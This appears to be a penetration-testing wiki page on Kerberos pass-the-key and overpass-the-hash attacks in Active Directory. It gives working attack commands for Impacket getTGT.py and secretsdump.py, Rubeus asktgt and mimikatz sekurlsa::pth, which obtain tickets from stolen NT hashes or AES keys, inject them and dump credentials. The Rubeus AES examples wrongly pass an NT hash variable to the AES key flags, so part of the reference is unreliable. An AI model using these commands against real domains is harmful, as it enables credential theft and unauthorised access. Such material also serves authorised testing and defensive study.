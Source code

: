 # Pass the key

## Theory

An attacker knowing a user's Kerberos key can use it to obtain Kerberos tickets and authenticate to remote services.

Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

* When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. Using a an NT hash to obtain Kerberos tickets is called **overpass the hash**.
* When RC4 is disabled, other Kerberos keys \(DES, AES-128, AES-256\) can be passed as well. This technique is called **pass the key**. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getTGT](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) \(Python\) can request a TGT \(Ticket Granting Ticket\) given a password, hash \(`LMhash` can be empty\), or aesKey. The TGT will be saved as a `.ccache` file that can then be used by other Impacket scripts.

```bash
# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
```

Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing [pass-the-ticket](pass-the-ticket.md).

An alternative to requesting the TGT and then passing the ticket is using the `-k` option in Impacket scripts. Example below with secretsdump.

```bash
secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Windows" %}
On Windows, requesting a TGT can be achieved with [Rubeus](https://github.com/GhostPack/Rubeus) \(C\#\). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.

```bash
# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$NThash /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$NThash /ptt
```

An alternative to Rubeus is [mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.notso.pro/2020-05-09-offops-in-ad-1/" caption="" %}

{% embed url="http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash" caption="" %}

{% embed url="https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/" caption="" %}

